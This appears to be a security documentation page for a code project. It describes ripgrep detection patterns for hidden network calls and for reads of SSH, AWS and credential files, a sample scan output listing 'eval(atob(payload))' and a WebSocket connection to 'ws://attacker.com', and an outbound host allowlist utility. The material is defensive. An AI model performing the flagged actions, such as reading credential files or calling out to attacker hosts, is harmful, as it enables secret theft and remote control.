 **Hidden Networking**:
```bash
rg -n 'require\\(.(http|https|net|dgram).\\)|new\\s+WebSocket\\(' --type js --type ts
```

**File Operations** (optional, not in default workflow):
```bash
rg -n 'readFileSync.*\\.ssh|readFileSync.*\\.aws|readFileSync.*credentials' --type js --type ts
```

**Workflow Output**:
```
src/malicious.ts:42: eval(atob(payload));
src/backdoor.ts:15: const ws = new WebSocket('ws://attacker.com');
```

**Result**:
- ✅ **Pass**: No findings
- ⚠️ **Warning**: Findings detected (continue-on-error: true, does not block PR)
- Findings logged to report for manual triage

---

### Outbound Allowlist Utility

**Purpose**: Runtime enforcement of approved external hosts
**Location**: `infrastructure/security/outbound-allowlist.ts`
**Tests**: `infrastructure/security/__tests__/outbound-allowlist.test.ts`

**How it works**:
1. Centralized allowlist of approved hostnames
2. `isAllowedUrl()` checks if URL is approved
3. `assertAllowedUrl()` throws if not approved
4. Wrap all `fetch()` and `axios()` calls

**Configuration**:
```typescript
// outbound-allowlist.ts
const knownSafeDomains = [
  'api.stripe.com',          // Payment gateway
  'api.coinbase.com',        // Market data
  'api.github.com',          // CI/CD integration
  'auth0.example.com',       // Authentication
];
```

**Usage**:
```typescript
import { assertAllowedUrl } from '@/infrastructure/security/outbound-allowlist';

async function fetchData(url: string) {
  assertAllowedUrl(url);  // Throws if not allowed
  const response = await fetch(url);
  return response.json();
}
```

